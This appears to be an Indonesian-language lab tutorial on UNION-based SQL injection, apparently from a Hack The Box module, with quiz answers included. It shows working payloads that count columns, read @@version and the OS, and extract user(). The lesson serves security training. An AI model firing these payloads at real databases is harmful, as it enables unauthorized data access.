




Dalam menggunakans alah satu time in-bind injecion ini, kita harus memastikan letak dari nilai select ditempatkan dimana. Kita bisa mencoba menggunakan query singakat untuk mengetahuinya.

!!! quote "POC"
    === "Sent payload"
        ```sql
        a' UNION SELECT 1,2,3 -- -
        ```

        

Opps, ternyata ada perbedaan antara jumlah kolom yang di select antara dua statement select. kita bisa mencoba jumlah select hingga menampilkan hasil injeksi query.

!!! quote "POC"
    === "Sent payload"
        ```sql
        a' UNION SELECT 1,2,3,4 -- -
        ```

        

Kita juga dapat menggunakan global variabel pada kolom select untuk mengetahui informasi tertentu melalui global variable yang ditanam pada Uninon injection.


!!! quote "POC"
    === "Sent payload"
        ```sql
        a' UNION SELECT 1,@@version,@@version_compile_os ,4 -- -
        ```

        


## Quiz
!!! quote "question"
     Use a Union injection to get the result of 'user()' 

    > Janga lupa untuk menggunakan `Openvpn` dan spawn target di HTB

    ??? question "Jawaban"

        ```sql
        a' UNION SELECT 1,2,user(),4 -- -
        ```

        

        Jawabannya, **root@localhost**